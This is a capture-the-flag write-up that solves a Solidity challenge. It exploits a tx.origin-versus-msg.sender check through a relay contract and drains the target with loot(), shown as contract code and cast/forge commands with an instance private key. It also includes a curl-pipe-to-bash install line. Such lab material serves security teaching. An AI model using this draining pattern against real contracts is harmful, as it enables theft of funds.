


# DISTRACT AND DESTROY
**Author:** Diego Alesxander Orrego Torrejon

**Category:** Smart Contracts
**warning:** This challenge is part of the smart contract category, so you need to have some knowledge about smart contracts to solve it.

---
## CHALLENGE DESCRIPTION

After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance.

---
## Necessary Resource: Foundry

To interact with the provided RPC and deploy the contracts, the **Foundry** development framework is required. Foundry is a fast, modular, and portable Ethereum development framework written in Rust. It simplifies smart contract development, testing, and interaction.

### Installation

Follow these steps to install Foundry:

1. Install Foundry using the official command:
    
    ```
    curl -L https://foundry.paradigm.xyz | bash
    ```
    
2. Once installed, initialize Foundry:
    
    ```
    foundryup
    ```
    
3. Confirm that Foundry is installed by running:
    
    ```
    forge --version
    ```
    

Now you can use Foundry tools like `forge` for compiling contracts and `cast` for interacting with the blockchain.


---
# Solution

## API Specification with the necessary data



### RPC To Interact With the Network

```
http://94.237.54.60:51578/rpc 
```

## INITIAL DATA



```
{
    "PrivateKey": "0x560c0d61249d7c86390fac1d8ae0c532c598913628e39f0b84c4975deab74e65",
    "Address": "0xc6EdFf8545a7C310fEe44D421150Bc6a431aEFA3",
    "TargetAddress": "0xbFd169395Ed9437098b36FF3F3b5cB853485b66f",
    "setupAddress": "0x926D1B9b4C171D3fca2A0774De833D9bDEecA68d"
}
```

## Setup

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

## Creature.sol

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```


## Interact With the RPC

- First, we need to check if the RPC is enabled, so we execute this command:

```
cast rpc --rpc-url http://94.237.54.60:51578/rpc web3_clientVersion
```

 Here, we get the version and name of the network.
## Interaction with Creature

We need to attack the creature and kill it, so we need to do the necessary damage to make its health 0.  
In the code, we see the function `attack` with a parameter `_damage`, which is the amount of damage we want to do. To call this function, we can use the code in the next step.

```
cast send 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f "attack(uint256)" 1000 
--private-key 0x560c0d61249d7c86390fac1d8ae0c532c598913628e39f0b84c4975deab74e65 
--rpc-url http://94.237.54.60:51578/rpc
```


Now we can check the creature's life points with:

```
cast call 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f "lifePoints()(uint256)" --rpc-url http://94.237.54.60:51578/rpc
```


We can see the life points of the creature don't change, so we consult the `aggro` to check if the attack action was realized.


We analyze the code to understand why we cannot deal any damage to the creature.

### Analyzing the Creature Contract

We observe the following in the `attack` function:

```
function attack(uint256 _damage) external {
    // When we call the function, this saves the message sender in aggro
    if (aggro == address(0)) {
        aggro = msg.sender;
    }
    // To deal damage, we must be different from aggro
    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
// This function checks if we call the attack function from a different
// address than the one used to initiate the transaction
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Key points:

- `tx.origin`: The address that started the transaction.
- `msg.sender`: Represents the immediate sender of the current call, which could be an external address or contract.

### Problem

We cannot call the `attack` function directly; we must do so through an external contract. The potential contract can be:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.13;

contract Character {
    // Address of the creature
    address TARGET = 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f;

    // Function that calls the function in the creature contract
    function attack(uint256 _damage) external {
        // Use encodeWithSignature to call the attack function in the creature contract
        (bool success, ) = TARGET.call(abi.encodeWithSignature("attack(uint256)", _damage));
        // Check if the call was successful
        require(success, "Call failed");
    }
}
```

We deploy this contract to the provided network:
using the command
```
forge create src/Character.sol:Character 
--private-key 0x560c0d61249d7c86390fac1d8ae0c532c598913628e39f0b84c4975deab74e65 --rpc-url http://94.237.54.60:51578/rpc --broadcast
```
 

```
Deployer: 0xc6EdFf8545a7C310fEe44D421150Bc6a431aEFA3
Deployed to: 0x020e85BcaB2B3D04Dc6f97C8ee2EAd630E6d18A5
Transaction hash: 0x21b2c9506cde081d7a99b0f17a7b25df955260e36667db6319a443403f183142
```

Now, we use the contract address to call the attack function.


### Checking the Creature's Life Points


We see it works! Now, loot the creature with the following command:

```
cast send 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f "loot()" 
--rpc-url http://94.237.54.60:51578/rpc --private-key 0x560c0d61249d7c86390fac1d8ae0c532c598913628e39f0b84c4975deab74e65
```


### Final Step: Check the Setup


We see the answer is true because in Solidity, `0x0` is false, and any other value means true.

### Finally, we got the flag!

